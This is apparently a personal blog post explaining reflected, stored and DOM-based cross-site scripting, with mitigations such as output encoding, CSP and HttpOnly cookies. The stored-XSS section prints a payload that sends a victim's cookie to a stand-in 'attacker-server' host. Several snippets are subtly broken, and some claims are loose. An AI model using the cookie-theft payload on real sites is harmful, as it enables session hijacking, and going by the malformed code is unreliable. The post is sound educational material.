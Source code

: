 ```yaml
---
title: Cross-site Scripting - known as XSS
date: 2021-06-01 18:28:16
tags: [XSS, Cross-site Scripting, Web Security]
banner_img: https://tva1.sinaimg.cn/large/0060lm7Tly1ftg6omusg9j31hc0u010h.jpg
index_img: https://tva1.sinaimg.cn/large/0060lm7Tly1ftg6omusg9j31hc0u010h.jpg
---
```


## 1. Introduction

Cross-site scripting is an attack where some software applications take user's input in an insecure way. This happens via search fields in the web page, survey forms, cookies and other online web forms.

## 2. Reflected XSS

1. The website's results contain malicious scripts.

2. when attacker gives your web application JavaScript tags on input.

   ```html
   <script type="text/javascript">
     alert('Possible XSS');
   </script>
   ```

3. When the above script is returned to the user, browser will execute it, and I can be as simple as crafting a link and inducing a user to click it, which could cause much more dangerous.

## 3. Stored XSS

1. The malicious data is stored permanently on a database and is later accessed and run by the victims without having any knowledge of the attack. The classic example of stored XSS is a malicious scripted inserted by an attacker in a comment field on a blog, Social media, or in a forum post.

2. The script below attempts to load an image from the attacker's server with the victim's cookie data within the request URL.

   ```html
   <script>
     var+img=new+image();img.src='http://attacker-server/'+document.cookie;
   </script>
   ```

3. After a request for the image has taken place the attacker can extract the victim's session identifier from the webserver log files.
4. the most famous stored XSS bug was Samy worm which killed Myspace!!

## 4. DOM XSS

1. DOM stands for Document Object Model of the page.

2. The script below is an example. DOM based XSS where in attacker's payload is executed as a result of modifying the DOM 'environment' in the victims' browser used by the original client-side script so that the client side code runs in an unexpected manner.

   ```html
   <script>
     document.write("<b>Current URL</b>" : " document.baseURL);
   </script>
   ```

## 5. Mitigation of XSS

### Input validation

- We can take parameter from URL or data from text and limit the user Input by using known blacklist. It is difficult to add because everyday hackers coming up with different Polyglots.

#### Output encoding

- It is changing input so that it cannot be interpreted as code
- Some HTML encoding rules:
  - ", &, <, >
- URL encoding/ percent encoding

#### Enable CSP

- Content Security Policy is set by application server to the browser's policy
- Set CSP via HTTP header by the web server

#### Use HTTP only Flag

- set http-only via Set-Cookie HTTP response header

## 6. Some site for learning CSS

1. Google XSS Game
2. DVWA
3. Burp Academy
4. Pen-tester Lab
